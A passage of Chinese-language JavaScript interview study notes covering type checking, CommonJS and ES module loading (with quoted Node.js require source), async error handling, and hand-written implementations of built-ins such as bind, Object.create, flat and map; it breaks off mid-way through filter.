- 再将 B 上 n - 1 个盘子从 B 移到 C（子问题，递归）。
/**
* @param {number[]} A
* @param {number[]} B
* @param {number[]} C
* @return {void} Do not return anything, modify C in-place instead.
*/
function hanota (A, B, C) {
let n = A.length
function move (m, a, b, c) {
if (m === 1) {
c.push(a.pop())
} else {
move(m - 1, a, c, b)
c.push(a.pop())
move(m - 1, b, a, c)
}
}
move(n, A, B, C)
}
给５升和６升的水杯如何倒出３升的水
- 6 给 5 倒满，6 里只剩 1 升
- 5 倒空，6 的 1 升水倒入 5，然后 6 接满，倒满 5，这时候 6 里有 2 升水
- 5 倒空，6 的 2 升水倒入 5，然后 6 接满，倒满 5，这时候 6 里有 3 升水
类型判断
数据类型
七种基本类型:
- 数字（Number），整数或浮点数，例如： 42 或者 3.14159。
- 字符串（String），字符串是一串表示文本值的字符序列，例如："Howdy" 。
- 布尔值（Boolean），有2个值分别是：true 和 false.
- null ， 一个表明 null 值的特殊关键字。 JavaScript 是大小写敏感的，因此 null 与 Null、NULL或变体完全不同。
- undefined ，和 null 一样是一个特殊的关键字，undefined 表示变量未赋值时的属性。
- 任意精度的整数 (BigInt) ，可以安全地存储和操作大整数，甚至可以超过数字的安全整数限制。
- Symbol ( 在 ECMAScript 6 中新添加的类型)。是唯一且不可改变的数据类型。
一种引用类型：
- 对象（Object）。函数 Function 是一种特殊的对象。
typeof
- 数值返回 "number"
- 字符串返回 "string"
- 布尔值返回 "boolean"
- Symbol 值返回 "symbol"
- BigInt 值返回 "bigint"
- undefined 返回 "undefined"
- null 返回 "object"
- NaN 返回 "number"
- 函数返回 "function"
- 其它返回 "object"
typeof 123 //"number"
typeof '123' //"string"
typeof false //"boolean"
typeof Symbol() //"symbol"
typeof BigInt(1) //"bigint"
typeof undefined //"undefined"
typeof null // "object"
function f () {}
typeof f //"function"
typeof NaN //"number"
typeof {} //"object"
typeof [] //"object"
typeof null //"object"
typeof new Set() //"object"
typeof new Map() //"object"
typeof new Date() //"object"
typeof new RegExp() //"object"
instanceof
instanceof 用于检测构造函数的 prototype 属性是否出现在某个实例对象的原型链上。
instanceof 左边是实例对象（必须是对象类型，不能是简单值，否则一直返回 false），右边是构造函数。
new Number(1) instanceof Number // true
new Number(1) instanceof Object // true
1 instanceof Number // false
'aaa' instanceof String // false
true instanceof Boolean // false
Symbol() instanceof Symbol // false
BigInt(1) instanceof BigInt // false
null instanceof Object // false
undefined instanceof Object // false
Object.prototype.toString.call()
Object.prototype.toString.call(1) // "[object Number]"
Object.prototype.toString.call(true) // "[object Boolean]"
Object.prototype.toString.call('aaa') // "[object String]"
Object.prototype.toString.call(null) // "[object Null]"
Object.prototype.toString.call(undefined) // "[object Undefined]"
Object.prototype.toString.call(Symbol()) // "[object Symbol]"
Object.prototype.toString.call(BigInt(1)) // "[object BigInt]"
Object.prototype.toString.call([]) // "[object Array]"
Object.prototype.toString.call({}) // "[object Object]"
function f() {
Object.prototype.toString.call(arguments) // [object Arguments]
}
题目
第一题
判断一个值是否是数组？
答案
Array.isArray(obj);
obj instanceof Array
obj.constructor === Array;
typeof obj === 'object' && typeof obj.length === 'number'
Array.prototype.isPrototypeOf(obj)
Object.prototype.toString.call(obj) === '[object Array]'
第二题
var a = {n: 1};
var b = a;
a.x = a = {n: 2};
答案
a // {n: 2}
b // {n: 1, x: {n: 2}}
赋值运算符从右边向左边计算，a.x 引用着 {n: 1} 这个对象的 x 属性，还没有赋值，一开始是 undefined，b 也引用着 {n: 1} 对象。a 被重新赋值为 {n: 2}，然后给 {n: 1} 多加了一个 x 属性等于 {n: 2}。
第三题
var str1 = '123'
var str2 = new String('123')
var str3 = String('123')
str1 == str2
str1 === str2
str2 === str3
答案
var str1 = '123'
var str2 = new String('123')
var str3 = String('123')
str1 == str2 // true 隐式转换，引用类型会 toPrimitive 转换成简单类型后再比较
str1 === str2 // false 类型不一样，str2 是 Object
str2 === str3 // false 同上
模块化
commonjs
commonjs 的核心思想是通过 rquire 方法来同步加载依赖的其他模块，通过 module.exports 暴露接口。
//导出
module.exports = moduleA.someFunc;
//导入
const moduleA = require('./moduleA')
require
在 nodejs 代码中碰到 require(x) 函数调用，按照下面的顺序处理：
- 如果 x 的是内置模块，直接返回该模块。
require('http')
-
如果 x 是
./或../或/开头，- 把 x 当作一个文件来查找。如果 x 本身就带文件后缀名，就查找对应文件，如果没有后缀名，则按照如下文件格式进行匹配：
- x
- x.js
- x.json
- x.node
- 如果当作文件没有找到，就把 x 当作一个目录，去查找这个目录下的 index 文件
- x/index.js
- x/index.json
- x/index.node
- 如果仍然没找到，抛出错误：not found
- 把 x 当作一个文件来查找。如果 x 本身就带文件后缀名，就查找对应文件，如果没有后缀名，则按照如下文件格式进行匹配：
-
如果 x 就是直接一个字符串值，并且不是内置模块
- 在当前目录下的 node_modules 寻找该模块
- 如果找不到就到上一层目录中的 node_modules 寻找该模块
- 如果一直找到了根目录都没有找到，抛出错误：not found
第三种情况中往上一层目录找 node_modules 中查找模块的路径在 module.paths 这个数组中
关于 require 加载模块需要注意的：
- 模块第一次被 require 时，模块中代码会被执行一次，然后将结果缓存起来
- 之后再次加载，就会读取缓存，不会再次执行模块中代码了。（每一个模块对象都有一个 loaded 属性，是否已经被加载过了）
module.exports 和 exports 的关系
默认情况下，module.exports 和 exports 指向同一个对象，也就是说，nodejs 模块内部是这样实现的：
function Module(id = '', parent) {
this.id = id;
this.path = path.dirname(id);
this.exports = {};
moduleParentCache.set(this, parent);
updateChildren(parent, this, false);
this.filename = null;
this.loaded = false;
this.children = [];
}
Module.prototype._compile = function () {
const exports = this.exports;
}
// module 就是当前模块，是 Module 类的一个实例，就是这里的 this。
真正负责导出的是 module.exports，所以如果给 module.exports 重新赋值，则 exports 引用的对象就不再是将被导出的模块了，会失效。
require 原理
require 的源码显示其实是调用了 Module._load() 方法
Module.prototype.require = function(id) {
validateString(id, 'id');
if (id === '') {
throw new ERR_INVALID_ARG_VALUE('id', id,
'must be a non-empty string');
}
requireDepth++;
try {
return Module._load(id, this, /* isMain */ false);
} finally {
requireDepth--;
}
};
下面是 Module._load() 源码
// Check the cache for the requested file.
// 1. If a module already exists in the cache: return its exports object.
// 2. If the module is native: call
// `NativeModule.prototype.compileForPublicLoader()` and return the exports.
// 3. Otherwise, create a new module for the file and save it to the cache.
// Then have it load the file contents before returning its exports
// object.
// 1. 如果模块已经缓存过了，返回模块的 exports 属性
// 2. 如果是原生模块，调用 NativeModule.prototype.compileForPublicLoader() 然后返回它的 exports 属性
// 3. 否则，为请求的文件创建一个新的模块对象保存在缓存里。文件内容加载后再将它的 exports 属性返回
Module._load = function(request, parent, isMain) {
let relResolveCacheIdentifier;
if (parent) {
debug('Module._load REQUEST %s parent: %s', request, parent.id);
// Fast path for (lazy loaded) modules in the same directory. The indirect
// caching is required to allow cache invalidation without changing the old
// cache key names.
relResolveCacheIdentifier = `${parent.path}\x00${request}`;
const filename = relativeResolveCache[relResolveCacheIdentifier];
if (filename !== undefined) {
const cachedModule = Module._cache[filename];
if (cachedModule !== undefined) {
updateChildren(parent, cachedModule, true);
if (!cachedModule.loaded)
return getExportsForCircularRequire(cachedModule);
return cachedModule.exports;
}
delete relativeResolveCache[relResolveCacheIdentifier];
}
}
// 计算模块的绝对路径
const filename = Module._resolveFilename(request, parent, isMain);
if (StringPrototypeStartsWith(filename, 'node:')) {
// Slice 'node:' prefix
const id = StringPrototypeSlice(filename, 5);
const module = loadNativeModule(id, request);
if (!module?.canBeRequiredByUsers) {
throw new ERR_UNKNOWN_BUILTIN_MODULE(filename);
}
return module.exports;
}
// 如果有缓存，取出缓存
const cachedModule = Module._cache[filename];
if (cachedModule !== undefined) {
updateChildren(parent, cachedModule, true);
if (!cachedModule.loaded) {
const parseCachedModule = cjsParseCache.get(cachedModule);
if (!parseCachedModule || parseCachedModule.loaded)
return getExportsForCircularRequire(cachedModule);
parseCachedModule.loaded = true;
} else {
return cachedModule.exports;
}
}
// 如果为内置模块，就获取后返回
const mod = loadNativeModule(filename, request);
if (mod?.canBeRequiredByUsers) return mod.exports;
// 生成模块实例
// Don't call updateChildren(), Module constructor already does.
const module = cachedModule || new Module(filename, parent);
if (isMain) {
process.mainModule = module;
module.id = '.';
}
// 存入缓存
Module._cache[filename] = module;
if (parent !== undefined) {
relativeResolveCache[relResolveCacheIdentifier] = filename;
}
let threw = true;
// 加载模块
try {
module.load(filename);
threw = false;
} finally {
if (threw) {
delete Module._cache[filename];
if (parent !== undefined) {
delete relativeResolveCache[relResolveCacheIdentifier];
const children = parent?.children;
if (ArrayIsArray(children)) {
const index = ArrayPrototypeIndexOf(children, module);
if (index !== -1) {
ArrayPrototypeSplice(children, index, 1);
}
}
}
} else if (module.exports &&
!isProxy(module.exports) &&
ObjectGetPrototypeOf(module.exports) ===
CircularRequirePrototypeWarningProxy) {
ObjectSetPrototypeOf(module.exports, ObjectPrototype);
}
}
// 返回加载后的模块的 exports 属性
return module.exports;
};
就如同源码的注释，require 的流程如下：
- 如果模块已经缓存过了，返回模块的 exports 属性
- 如果是原生模块，调用 NativeModule.prototype.compileForPublicLoader() 然后返回它的 exports 属性
- 否则，为请求的文件创建一个新的模块对象保存在缓存里。文件内容加载后再将它的 exports 属性返回
Module._resolveFilename 解析模块文件的绝对路径
Module._resolveFilename = function(request, parent, isMain, options) {
if (StringPrototypeStartsWith(request, 'node:') ||
NativeModule.canBeRequiredByUsers(request)) {
return request;
}
let paths;
if (typeof options === 'object' && options !== null) {
if (ArrayIsArray(options.paths)) {
const isRelative = StringPrototypeStartsWith(request, './') ||
StringPrototypeStartsWith(request, '../') ||
((isWindows && StringPrototypeStartsWith(request, '.\\')) ||
StringPrototypeStartsWith(request, '..\\'));
if (isRelative) {
paths = options.paths;
} else {
const fakeParent = new Module('', null);
paths = [];
for (let i = 0; i < options.paths.length; i++) {
const path = options.paths[i];
fakeParent.paths = Module._nodeModulePaths(path);
const lookupPaths = Module._resolveLookupPaths(request, fakeParent);
for (let j = 0; j < lookupPaths.length; j++) {
if (!ArrayPrototypeIncludes(paths, lookupPaths[j]))
ArrayPrototypePush(paths, lookupPaths[j]);
}
}
}
} else if (options.paths === undefined) {
paths = Module._resolveLookupPaths(request, parent);
} else {
throw new ERR_INVALID_ARG_VALUE('options.paths', options.paths);
}
} else {
// 列出可能的所有路径
paths = Module._resolveLookupPaths(request, parent);
}
if (parent?.filename) {
if (request[0] === '#') {
const pkg = readPackageScope(parent.filename) || {};
if (pkg.data?.imports != null) {
try {
return finalizeEsmResolution(
packageImportsResolve(request, pathToFileURL(parent.filename),
cjsConditions), request, parent.filename,
pkg.path);
} catch (e) {
if (e.code === 'ERR_MODULE_NOT_FOUND')
throw createEsmNotFoundErr(request);
throw e;
}
}
}
}
// Try module self resolution first
const parentPath = trySelfParentPath(parent);
const selfResolved = trySelf(parentPath, request);
if (selfResolved) {
const cacheKey = request + '\x00' +
(paths.length === 1 ? paths[0] : ArrayPrototypeJoin(paths, '\x00'));
Module._pathCache[cacheKey] = selfResolved;
return selfResolved;
}
// Look up the filename first, since that's the cache key.
// 查找真正的路径，如果找到就返回
const filename = Module._findPath(request, paths, isMain, false);
if (filename) return filename;
const requireStack = [];
for (let cursor = parent;
cursor;
cursor = moduleParentCache.get(cursor)) {
ArrayPrototypePush(requireStack, cursor.filename || cursor.id);
}
let message = `Cannot find module '${request}'`;
if (requireStack.length > 0) {
message = message + '\nRequire stack:\n- ' +
ArrayPrototypeJoin(requireStack, '\n- ');
}
// eslint-disable-next-line no-restricted-syntax
const err = new Error(message);
err.code = 'MODULE_NOT_FOUND';
err.requireStack = requireStack;
throw err;
};
Module._findPath 从可能的路径组成的数组中查到到真正的路径
Module._findPath = function(request, paths, isMain) {
const absoluteRequest = path.isAbsolute(request);
if (absoluteRequest) {
paths = [''];
} else if (!paths || paths.length === 0) {
return false;
}
// 如果当前路径已在缓存中，直接返回缓存
const cacheKey = request + '\x00' + ArrayPrototypeJoin(paths, '\x00');
const entry = Module._pathCache[cacheKey];
if (entry)
return entry;
let exts;
let trailingSlash = request.length > 0 &&
StringPrototypeCharCodeAt(request, request.length - 1) ===
CHAR_FORWARD_SLASH;
if (!trailingSlash) {
trailingSlash = RegExpPrototypeTest(trailingSlashRegex, request);
}
// For each path
for (let i = 0; i < paths.length; i++) {
// Don't search further if path doesn't exist
const curPath = paths[i];
if (curPath && stat(curPath) < 1) continue;
if (!absoluteRequest) {
const exportsResolved = resolveExports(curPath, request);
if (exportsResolved)
return exportsResolved;
}
const basePath = path.resolve(curPath, request);
let filename;
const rc = stat(basePath);
if (!trailingSlash) { // 路径结尾不是 / 即不是目录
if (rc === 0) { // File. stat 状态返回 0，则为文件
if (!isMain) {
if (preserveSymlinks) {
filename = path.resolve(basePath);
} else {
filename = toRealPath(basePath);
}
} else if (preserveSymlinksMain) {
// For the main module, we use the preserveSymlinksMain flag instead
// mainly for backward compatibility, as the preserveSymlinks flag
// historically has not applied to the main module. Most likely this
// was intended to keep .bin/ binaries working, as following those
// symlinks is usually required for the imports in the corresponding
// files to resolve; that said, in some use cases following symlinks
// causes bigger problems which is why the preserveSymlinksMain option
// is needed.
filename = path.resolve(basePath);
} else {
filename = toRealPath(basePath);
}
}
if (!filename) { // 如果找不到
// Try it with each of the extensions
//获取后缀名：.js, .json, .node，尝试不同后缀名
if (exts === undefined)
exts = ObjectKeys(Module._extensions);
filename = tryExtensions(basePath, exts, isMain);
}
}
if (!filename && rc === 1) { // Directory.
// try it with each of the extensions at "index"
/**
* stat 状态返回 1 且文件名不存在，则认为是文件夹
* 如果文件后缀不存在，则尝试加载该目录下的 package.json 中 main 入口指定的文件
* 如果不存在，然后尝试 index[.js, .node, .json] 文件
*/
if (exts === undefined)
exts = ObjectKeys(Module._extensions);
filename = tryPackage(basePath, exts, isMain, request);
}
if (filename) {
// 找到文件绝对路径缓存起来
Module._pathCache[cacheKey] = filename;
return filename;
}
}
return false;
};
加载模块
Module.prototype.load = function(filename) {
debug('load %j for module %j', filename, this.id);
// 保证模块没有加载过
assert(!this.loaded);
this.filename = filename;
this.paths = Module._nodeModulePaths(path.dirname(filename));
const extension = findLongestRegisteredExtension(filename);
// allow .mjs to be overridden
if (StringPrototypeEndsWith(filename, '.mjs') && !Module._extensions['.mjs'])
throw new ERR_REQUIRE_ESM(filename, true);
// 执行特定文件后缀名解析函数 如 js / json / node
Module._extensions[extension](this, filename);
this.loaded = true;
const ESMLoader = asyncESM.ESMLoader;
// Create module entry at load time to snapshot exports correctly
const exports = this.exports;
// Preemptively cache
if ((module?.module === undefined ||
module.module.getStatus() < kEvaluated) &&
!ESMLoader.cjsCache.has(this))
ESMLoader.cjsCache.set(this, exports);
};
下面是针对不同的文件后缀，加载 .js, .json, .node
Module._extensions['.js'] = function(module, filename) {
// If already analyzed the source, then it will be cached.
const cached = cjsParseCache.get(module);
let content;
if (cached?.source) {
content = cached.source;
cached.source = undefined;
} else {
// 读取文件内容
content = fs.readFileSync(filename, 'utf8');
}
if (StringPrototypeEndsWith(filename, '.js')) {
const pkg = readPackageScope(filename);
// Function require shouldn't be used in ES modules.
if (pkg?.data?.type === 'module') {
const parent = moduleParentCache.get(module);
const parentPath = parent?.filename;
const packageJsonPath = path.resolve(pkg.path, 'package.json');
const usesEsm = hasEsmSyntax(content);
const err = new ERR_REQUIRE_ESM(filename, usesEsm, parentPath,
packageJsonPath);
// Attempt to reconstruct the parent require frame.
if (Module._cache[parentPath]) {
let parentSource;
try {
parentSource = fs.readFileSync(parentPath, 'utf8');
} catch {}
if (parentSource) {
const errLine = StringPrototypeSplit(
StringPrototypeSlice(err.stack, StringPrototypeIndexOf(
err.stack, ' at ')), '\n', 1)[0];
const { 1: line, 2: col } =
RegExpPrototypeExec(/(\d+):(\d+)\)/, errLine) || [];
if (line && col) {
const srcLine = StringPrototypeSplit(parentSource, '\n')[line - 1];
const frame = `${parentPath}:${line}\n${srcLine}\n${
StringPrototypeRepeat(' ', col - 1)}^\n`;
setArrowMessage(err, frame);
}
}
}
throw err;
}
}
// 编译执行代码
module._compile(content, filename);
};
// Native extension for .json
Module._extensions['.json'] = function(module, filename) {
// 直接按照 utf-8 格式加载文件
const content = fs.readFileSync(filename, 'utf8');
if (policy?.manifest) {
const moduleURL = pathToFileURL(filename);
policy.manifest.assertIntegrity(moduleURL, content);
}
try {
// 以 JSON 对象格式导出文件内容
module.exports = JSONParse(stripBOM(content));
} catch (err) {
err.message = filename + ': ' + err.message;
throw err;
}
};
// Native extension for .node
Module._extensions['.node'] = function(module, filename) {
if (policy?.manifest) {
const content = fs.readFileSync(filename);
const moduleURL = pathToFileURL(filename);
policy.manifest.assertIntegrity(moduleURL, content);
}
// Be aware this doesn't use `content`
// 通过 process.dlopen 函数读取，而 process.dlopen 函数实际上调用了 C++ 代码中的 DLOpen 函数，而 DLOpen 中又调用了 uv_dlopen, 后者加载 .node 文件，类似 OS 加载系统类库文件
return process.dlopen(module, path.toNamespacedPath(filename));
};
Module.prototype._compile 编译 .js 文件
// Run the file contents in the correct scope or sandbox. Expose
// the correct helper variables (require, module, exports) to
// the file.
// Returns exception, if any.
Module.prototype._compile = function(content, filename) {
let moduleURL;
let redirects;
if (policy?.manifest) {
moduleURL = pathToFileURL(filename);
redirects = policy.manifest.getDependencyMapper(moduleURL);
policy.manifest.assertIntegrity(moduleURL, content);
}
maybeCacheSourceMap(filename, content, this);
const compiledWrapper = wrapSafe(filename, content, this);
let inspectorWrapper = null;
if (getOptionValue('--inspect-brk') && process._eval == null) {
if (!resolvedArgv) {
// We enter the repl if we're not given a filename argument.
if (process.argv[1]) {
try {
resolvedArgv = Module._resolveFilename(process.argv[1], null, false);
} catch {
// We only expect this codepath to be reached in the case of a
// preloaded module (it will fail earlier with the main entry)
assert(ArrayIsArray(getOptionValue('--require')));
}
} else {
resolvedArgv = 'repl';
}
}
// Set breakpoint on module start
if (resolvedArgv && !hasPausedEntry && filename === resolvedArgv) {
hasPausedEntry = true;
inspectorWrapper = internalBinding('inspector').callAndPauseOnStart;
}
}
const dirname = path.dirname(filename);
const require = makeRequireFunction(this, redirects);
let result;
const exports = this.exports;
const thisValue = exports;
const module = this;
if (requireDepth === 0) statCache = new SafeMap();
if (inspectorWrapper) {
result = inspectorWrapper(compiledWrapper, thisValue, exports,
require, module, filename, dirname);
} else {
result = ReflectApply(compiledWrapper, thisValue,
[exports, require, module, filename, dirname]);
}
hasLoadedAnyUserCJSModule = true;
if (requireDepth === 0) statCache = null;
return result;
};
function wrapSafe(filename, content, cjsModuleInstance) {
if (patched) {
const wrapper = Module.wrap(content);
return vm.runInThisContext(wrapper, {
filename,
lineOffset: 0,
displayErrors: true,
importModuleDynamically: async (specifier) => {
const loader = asyncESM.ESMLoader;
return loader.import(specifier, normalizeReferrerURL(filename));
},
});
}
try {
return vm.compileFunction(content, [
'exports',
'require',
'module',
'__filename',
'__dirname',
], {
filename,
importModuleDynamically(specifier) {
const loader = asyncESM.ESMLoader;
return loader.import(specifier, normalizeReferrerURL(filename));
},
});
} catch (err) {
if (process.mainModule === cjsModuleInstance)
enrichCJSError(err, content);
throw err;
}
}
ES module
es6 之后的模块化主要由 import 和 export 命令实现。export 用于从模块中导出实时绑定的函数、对象或原始值。import 则用于导入另一个模块导出的绑定。
// 以下两种为错误
// 因为 export 要导出的不是变量或者具体值，导出的是接口
export 1;
const a = 1;
export a;
// 以下为正确
// export 后面跟声明和赋值语句，就是导出接口
// export 后面跟花括号，花括号不是对象的意思，而是接口列表，里面放逗号分开的变量名
const a = 1;
export { a };
export const a = 1, b = 2;
export const a = 1;
export const b = 2;
const a = 1;
export { a as outA };
const a = 1;
const b = 2;
export { a as outA, b as outB };
// export default 后面是一个值，和 export 不一样， export 后面是一个接口
// export default 后面的花括号就是对象的意思了，不是接口列表
const a = 1;
export default a;
const a = 1;
export default { a };
export default function() {};
export default class(){};
const a = 1;
export defalut a;
// 等价于
export { a as default }
// import 导入的时候，如果对应的是 export 导出的接口，则 import 的时候也要导入接口，放在花括号里
// 如果对应的是 export default 导出的值，则不用放在花括号里
// 某个模块的导出 moudule.js
export const a = 1;
import { a } from './module'
import { a as myA } from './module'
// 若是只想要运行被加载的模块可以这样写，但是即使加载 2 次也只是运行一次
import './module'
// 整体加载
import * as module from './module'
// default 接口和具名接口
import module, { a } from './module'
CommonJS的加载过程
-
CommonJS 模块加载 js 文件的过程是运行时加载的，并且是同步的：运行时加载意味着是 js 引擎在执行 js 代码的过程中加载模块；同步的就意味着一个文件没有加载结束之前，后面的代码都不会执行；
-
CommonJS 通过 module.exports 导出的是一个对象：导出的是一个对象意味着可以将这个对象的引用在其他模块中赋值给其他变量；但是最终他们指向的都是同一个对象，那么一个变量修改了对象的属性，所有的地方都会被修改；
ES Module加载过程
-
ES Module 加载 js 文件的过程是编译（解析）时加载的，并且是异步的：编译时（解析）时加载，意味着 import 不能和运行时相关的内容放在一起使用：比如 from 后面的路径不能动态获取；比如不能将 import 放到 if 等语句的代码块中；所以我们有时候也称 ES Module 是静态解析的，而不是动态或者运行时解析的；
-
异步的意味着：js 引擎在遇到 import 时会去获取这个 js 文件，但是这个获取的过程是异步的，并不会阻塞主线程继续执行；也就是说设置了type=module 的代码，相当于在 script 标签上也加上了 defer 属性；如果我们后面有普通的 script 标签以及对应的代码，那么 ES Module 对应的 js 文件和代码不会阻塞它们的执行；
-
ES Module 通过 export 导出的是变量本身的引用：export 在导出一个变量时，js 引擎会解析这个语法，并且创建模块环境记录（module environment record）；模块环境记录会和变量进行绑定（binding），并且这个绑定是实时的；而在导入的地方，我们是可以实时的获取到绑定的最新值的；
-
所以，如果在导出的模块中修改了变化，那么导入的地方可以实时获取最新的变量；
-
注意：在导入的地方不可以修改变量，因为它只是被绑定到了这个变量上（其实是一个常量）
-
思考：如果 bar.js 中导出的是一个对象，那么 main.js 中是否可以修改对象中的属性呢？答案是可以的，因为他们指向同一块内存空间；
ES6 模块和 commonjs 的区别
- CommonJS 模块输出的是一个值的拷贝，ES6 模块输出的是值的引用。CommonJS 模块输出的是值的拷贝，也就是说，一旦输出一个值，模块内部的变化就影响不到这个值。ES6 的模块在 JS 引擎对脚本静态分析的时候，遇到模块加载命令import，就会生成一个只读引用。等到脚本真正执行时，再根据这个只读引用，到被加载的那个模块里面去取值。换句话说，ES6 的import有点像 Unix 系统的“符号连接”，原始值变了，import加载的值也会跟着变。因此，ES6 模块是动态引用，并且不会缓存值，模块里面的变量绑定其所在的模块。
- CommonJS 模块是运行时加载，ES6 模块是编译时输出接口。因为 CommonJS 加载的是一个对象（即module.exports属性），该对象只有在脚本运行完才会生成。而 ES6 模块不是对象，它的对外接口只是一种静态定义，在代码静态解析阶段就会生成。
- CommonJS 模块的 require() 是同步加载模块，ES6 模块的 import 命令是异步加载，有一个独立的模块依赖的解析阶段。
遍历对象的属性
- for...in：只遍历对象
自身的和继承的可枚举的属性。 - Object.keys()：返回对象
自身的所有可枚举的属性的键名。 - JSON.stringify()：只串行化对象
自身的可枚举的属性。 - Object.assign()： 只拷贝对象
自身的可枚举的属性。 - Object.getOwnPropertyNames(obj)：返回一个数组，包含对象
自身的所有属性（不含 Symbol 属性，但是包括不可枚举属性）的键名。 - Object.getOwnPropertySymbols(obj)：返回一个数组，包含对象
自身的所有Symbol属性的键名。 - Reflect.ownKeys(obj)：返回一个数组，包含对象
自身的（不含继承的）所有键名，不管键名是Symbol 或字符串，也不管是否可枚举。
错误捕获
setTimeout
try {
setTimeout(() => {
let a = c;
}, 100)
} catch(e) {
console.log('能获取到错误么？？', e);
}
使用 try catch 无法捕获到 setTimeout 的回调里的错误，错误会被抛出，js 会停止执行。
思考：能不能在 setTimeout 里面先用 try catch 获取一下，然后捕获到错误后再传出去？
try {
setTimeout(() => {
try {
let a = c;
} catch(e) {
throw new Error('some variable is not defined');
}
}, 100)
} catch(e) {
console.log('能获取到错误么？？', e);
}
里面的 try catch 可以捕获到了，但是还是无法传递到外层。
原因：内存的错误跟最外层的 try catch 并不在一个执行栈中，当内存的回调函数执行的时候，外边的这个宏任务早已执行完， 他们的上下文已经完全不同了。
promise
try {
new Promise((resolve, reject) => {
reject('promise error');
})
} catch(e) {
console.log('异步错误，能catch到么？？', e);
}
也 catch 不到错误，和 setTimeout 的原因一样，执行上下文不同了。
思考：那么使用 promise 对象自己的 catch 捕获到错误然后传递到外层 try catch 能不能捕获到呢？
try {
new Promise((resolve, reject) => {
reject('promise error');
}).catch(e => {
throw new Error(e);
})
} catch(e) {
console.log('异步错误，能catch到么？？', e);
}
答案是也不行，捕获不到。因为 promise 的 catch 的回调执行的之后，外层的 try catch 的执行上下文早已销毁了。
callback
思考：是不是所有 callback 都无法从外部捕获错误？
function Fn(cb) {
console.log('callback执行了');
cb();
}
try {
const cb = () => {
throw new Error('callback执行错误');
}
Fn(cb);
} catch(e) {
console.log('能够catch住么???')
}
这里可以 catch 到错误。
async await
const asyncFn = () => {
return new Promise((resolve, reject) => {
setTimeout(() => {
reject('asyncFn执行时出现错误了')
}, 100);
})
}
const executedFn = async () => {
try{
await asyncFn();
}catch(e) {
console.log('拦截到错误..', e);
}
}
async-await 是使用生成器、promise 和协程实现的，await 操作符还存储返回事件循环之前的执行上下文，以便允许 promise 操作继续进行。当内部通知解决等待的 promise 时，它会在继续之前恢复执行上下文。 所以说，能够回到最外层的上下文， 那就可以用 try catch。
手写题
实现基础操作
- 实现 new
- 实现 instanceof
- 实现 call apply bind
- 实现 Object.create
- 实现 Object.assign
- 实现 Array.prototype.flat
- 实现 String.prototype.trim
- 实现 forEach map filter find reduce some every
- 定时器
- 实现数组去重
- 解析 url params 为对象
其他 js 题
- 实现 a == 1 && a == 2 && a == 3 的结果为 true
- 洗牌算法
- 判断字符串中的括号是否是合法闭合的括号
- 实现判断版本号的方法
- 实现 promisify
题目
new
答案
function _new(constructor) {
const args = [].slice.call(arguments, 1);
const context = Object.create(constructor.prototype);
const res = constructor.apply(context, args);
return (typeof res === 'object' && res !== null) ? res : context;
}
instanceof
答案
function _instanceof(obj, constructor) {
if ((typeof obj !== 'object' && typeof obj !== 'function') || obj === null) return false;
let objProto = obj.__proto__;
while(true) {
if (objProto === null) return false;
if (objProto === constructor.prototype) return true;
objProto = objProto.__proto__;
}
}
call apply bind
答案
Function.prototype._call = function (context, ...args) {
context = context ? Object(context) : window;
const key = Symbol();
context[key] = this;
const result = context[key](...args);
Reflect.deleteProperty(context, key);
return result;
}
Function.prototype._apply = function (context, args) {
context = context ? Object(context) : window;
const key = Symbol();
context[key] = this;
const result = context[key](...args);
Reflect.deleteProperty(context, key);
return result;
}
Function.prototype._bind = function (context) {
let preArgs = [].slice.call(arguments, 1);
let fToBind = this;
function fNoP () {};
function fBound () {
let allArgs = [...preArgs, ...([].slice.call(arguments))];
return fToBind.apply(fNoP.prototype.isPrototypeOf(this) ? this : context, allArgs);
}
if (fToBind.prototype) {
fNoP.prototype = fToBind.prototype;
}
fBound.prototype = new fNoP();
return fBound;
}
// 新建一个空函数 fNoP 作为中间者维护原型关系，不让 fBound 指向 fToBind 的原型，以防 fToBind 的原型被修改
Object.create
答案
Object._create = function (proto) {
const F = function () {};
F.prototype = proto;
return new F();
}
Object._create = function(proto, propertyObject = undefined) {
if (typeof proto !== 'object' && typeof proto !== 'function') {
throw new TypeError('Object prototype may only be an Object or null.')
}
if (propertyObject === null) {
new TypeError('Cannot convert undefined or null to object')
}
function F() {};
F.prototype = proto;
const obj = new F();
if (propertyObject != undefined) {
Object.defineProperties(obj, propertyObject)
}
if (proto === null) {
// 创建一个没有原型对象的对象，Object.create(null)
obj.__proto__ = null
}
return obj
}
Object.assign
答案
Object._assign = function assign(target) {
'use strict';
if (target == null) {
throw new TypeError('Cannot convert undefined or null to object');
}
let to = Object(target);
for (var index = 1; index < arguments.length; index++) {
var nextSource = arguments[index];
if (nextSource != null) {
for (let nextKey in nextSource) {
if (Object.prototype.hasOwnProperty.call(nextSource, nextKey)) {
to[nextKey] = nextSource[nextKey];
}
}
}
}
return to;
}
Array.prototype.flat
答案
// 循环 + 递归
Array.prototype._flat = function (d = 1) {
return d > 0 ?
this.reduce((acc, item) => acc.concat(Array.isArray(item) ? item._flat(d - 1) : item), [])
: this.slice();
}
Array.prototype._flat = function (d = 1) {
const result = [];
(function flat (arr, depth) {
for (let item of arr) {
if (Array.isArray(item) && depth > 0) {
flat(item, depth - 1);
} else {
result.push(item);
}
}
})(this, d);
return result;
}
// generator
function* flatten(array) {
for (const item of array) {
if (Array.isArray(item)) {
yield* flatten(item);
} else {
yield item;
}
}
}
String.prototype.trim
答案
// \xA0 是不间断空白符
// \uFEFF 是文件包含字节顺序标记时开头会出现的空白字符
String.prototype.trim = function () {
return this.replace(/^[\s\uFEFF\xA0]+|[\s\uFEFF\xA0]+$/g, '');
};
forEach map filter find reduce some every
答案
Array.prototype.forEach = function(callback, thisArg) {
if (this == null) {
throw new TypeError(' this is null or not defined');
}
if (typeof callback !== "function") {
throw new TypeError(callback + ' is not a function');
}
var _this, index = 0;
var arr = Object(this);
var len = arr.length >>> 0;
if (arguments.length > 1) {
_this = thisArg;
}
while (index < len) {
var value;
if (index in arr) {
value = arr[index];
callback.call(_this, value, index, arr);
}
index++;
}
};
Array.prototype.map = function(callback, thisArg) {
if (this == null) {
throw new TypeError(' this is null or not defined');
}
if (typeof callback !== "function") {
throw new TypeError(callback + ' is not a function');
}
var _this, index = 0;
var arr = Object(this);
var len = arr.length >>> 0;
var result = new Array(len);
if (arguments.length > 1) {
_this = thisArg;
}
while (index < len) {
var value, res;
if (index in arr) {
value = arr[index];
res = callback.call(_this, value, index, arr);
result[index] = res;
}
index++;
}
return result;
};
Array.prototype.filter = function(callback, thisArg) {
